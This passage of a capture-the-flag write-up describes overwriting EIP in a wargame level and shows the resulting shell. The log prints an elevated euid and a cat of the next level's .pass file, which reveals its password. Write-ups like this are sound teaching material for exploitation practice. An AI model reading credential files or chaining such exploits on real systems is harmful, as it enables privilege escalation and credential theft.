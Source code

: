 Every address is in the array, and is currently suppose to overwrite the EIP, now we must go that EIP, lets quit the program using the 'quit' command, and see if it prompt a shell.

```
Input command: quit
$ id
uid=1007(level07) gid=1007(level07) euid=1008(level08) egid=100(users) groups=1008(level08),100(users),1007(level07)
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
$
```

And it FINALLY worked.
